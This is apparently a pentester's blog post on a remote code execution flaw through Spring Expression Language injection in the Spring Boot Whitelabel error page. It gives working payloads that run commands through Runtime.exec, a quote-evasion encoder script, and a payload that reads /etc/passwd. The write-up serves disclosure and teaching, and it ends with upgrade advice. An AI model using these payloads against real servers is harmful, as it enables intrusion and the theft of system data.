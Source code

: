 ```yaml
---
title:  "Spring Boot RCE"
date:   2017-02-02 23:11:23
categories: [security]
tags: [Security,RCE,Pentest,SSTI]
---
```



This is my very frist blog post which was pending for a long time (almost a year). I would like to share a particular Remote Code Execution (RCE) in Java Springboot framework. I was highly inspired to look into this vulnerability after I read this article by **David Vieira-Kurz**, which can be found at his [blog](http://secalert.net/#cve-2016-4977). His article talks about an RCE in the Spring Security OAuth framework and how the Whitelabel error page can be used to trigger code execution.

So this meant that any Whitelabel Error Page which reflected user input was vulnerable to it. This was because user input was being treated in as Springs Expression Language (***SpEL***). So during my pentest I had come across a particualr URL which triggered this Whitelabel Error page.

**URL:** `https://<domain>/BankDetailForm?id=abc${12*12}abc`

**Error Page:**
![alt text](../../images/initial_error.png "Initial Error")


My input of `abc${12*12}abc` was reflected as `abc144abc`. Then I wanted to perform a simple **id** and get the result on screen. I proceeded with the following payload:

**URI:** `/BankDetailForm?id=${T(java.lang.Runtime).getRuntime().exec('id')}`

**Payload:** `${T(java.lang.Runtime).getRuntime().exec('id')}`

**Error Page:**
![alt text](../../images/error_2.png "Payload Error")

Hmm.....I see nothing. The reflection gave back the input as it is. I double checked David's blog to see if I was doing anything wrong. I was unsure as to what went wrong. Was the payload incorrect or did I make a mistake with the braces?? Nope. Everything was correct but I was still not getting my desired output. After fiddling around for a few hours I decided to fireup a demo Springs app and try to recreate the same scenario. I tried with a basic `{5*5}` and got `25` printed beautifully onscreen. Then I tried doing an **id** and bam!!!, it did not execute. I knew that I had to dig deeper because this was eating me up. 

It got me thinking that quotes might have been encoded and might have broken the **exec()** command. Next thing was to look at the stack trace at the server and see what was wrong.

![alt text](../../images/debug_mode.png "Debugging")

So after debugging I could see that single & double quotes were URL encoded. The **exec()** method clearly takes an argument
as a string. Now I either need to find characters within the error code and take bits & pieces and pass it to exec using **substring()**, which is still pretty difficult or I need to find a way to pass my string without using double quotes or single qutoes. I wanted to go with the second approach. Java supports nested functions and if I'm able to find a method which can output `id` or `cat etc/passwd`, this would then be passed to **exec()** and then my payload would run successfully.

After going through some Java classes I stumbled upon the following:

``` ruby
java.lang.Character.toString(105) 
-> prints the characer 'i'
``` 

Now I need to concat the letter 'd' and I'm golden. Again concat() is a method and i'm going to nest the `character.toString` inside it as well.

``` ruby
java.lang.Character.toString(105).concat(T(java.lang.Character).toString(100))
-> prints the characters 'id'
``` 
Now crafting the final payload, I get the following:

~~~ ruby          
https://<domain>/BankDetailForm?id=${T(java.lang.Runtime).getRuntime().exec(T(java.
lang.Character).toString(105).concat(T(java.lang.Character).toString(100)))}
~~~
![alt text](../../images/rce_blind.png "id executes")

The **getRuntime()** method returns the runtime object which we got on screen. Now we have some sort of a Blind RCE with which we can run any commands. I wanted to go a step further and get the output on screen (just for fun). At this point I wanted to do a `cat etc/passwd` and print the result onto the Whitelabel Error page. This meant for every character I would need to write its ASCII equivalent in the format `concat(T(java.lang.Character).toString(<ascii value>))`. Wrote a quick sloppy python script to acheive this:

**Python Script:**

``` ruby
#!/usr/bin/env python
from __future__ import print_function
import sys

message = raw_input('Enter message to encode:')

print('Decoded string (in ASCII):\n')
for ch in message:
   print('.concat(T(java.lang.Character).toString(%s))' % ord(ch), end=""), 
print('\n')

```


Now to get the output of `cat etc/passwd` in the response, we will use the ***IOUtils*** class and call the **toString()** method. We can pass an input stream to this method and get the contents of the stream as a response.

~~~ ruby  
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).get
Runtime().exec(T(java.lang.Character).toString(99).concat(T(ja
va.lang.Character).toString(97)).concat(T(java.lang.Character).toStri
ng(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.la
ng.Character).toString(47)).concat(T(java.lang.Character).toString(10
1)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.C
haracter).toString(99)).concat(T(java.lang.Character).toString(47)).c
oncat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).
toString(97)).concat(T(java.lang.Character).toString(115)).concat
(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toStrin
g(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
~~~

The payload became quite huge. To sum up, I used the Apache IOUtils library. I converted `cat etc/passwd` into ASCII characters using the character class, passed this value to the **exec()** method and got the input stream and passed it to the `toString()` method of IOUtils class. Awesome isnt it. I tried this on the remote box and got the following.

![alt text](../../images/rce_new.jpg "etc/passwd")

All this hassle just to get around the single and double quotes. However I feel there might have been easier ways to go about it. Tackling out the hurdles and troubleshooting and debugging and finally getting what you want is such a serene feeling. This bug was a learning curve for me and I learned a lot of things alongside exploiting this. If you are using an older version of Spring Boot, I would highly advise you to upgrade it. The vulnerability has been patched since **Spring Boot 1.2.8**.

I hope you guys enjoyed this blog. Please feel free to let me know your thoughts or any doubts you have. You can also catch me up on [Twitter][twitter] or shoot me an email.


[twitter]:      https://twitter.com/0xdeadpool
